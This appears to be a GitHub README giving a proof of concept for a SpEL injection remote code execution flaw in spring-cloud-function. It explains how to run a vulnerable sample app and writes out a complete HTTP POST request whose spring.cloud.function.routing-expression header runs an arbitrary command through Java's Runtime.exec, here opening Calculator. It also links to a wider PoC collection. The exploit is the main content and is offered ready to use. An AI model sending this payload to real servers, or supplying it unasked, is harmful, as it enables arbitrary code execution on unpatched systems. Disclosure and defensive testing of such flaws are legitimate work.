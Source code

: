 # spring-cloud-function SpEL RCE

## Vultarget

You can build it for youself. [here is the source of the Vuln App](./src)

Or you can use [the release which built by cckuailong(Yh,it's me)](https://github.com/cckuailong/spring-cloud-function-SpEL-RCE/releases/tag/untagged-e1c4060d01bbb4ddc6cf)

```
java -jar function-sample-pojo-3.2.1.RELEASE.jar
```

## Poc

```
POST /xxx HTTP/1.1
Host: test.com:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

xxx
```

## Result

RCE！！

![demo](./img/demo.png)

Enjoy it!

I'll put the poc code in the repo:

https://github.com/cckuailong/pocsploit

[Article](https://mp.weixin.qq.com/s/AVvyKjRz_XooIB0s1S8njA)

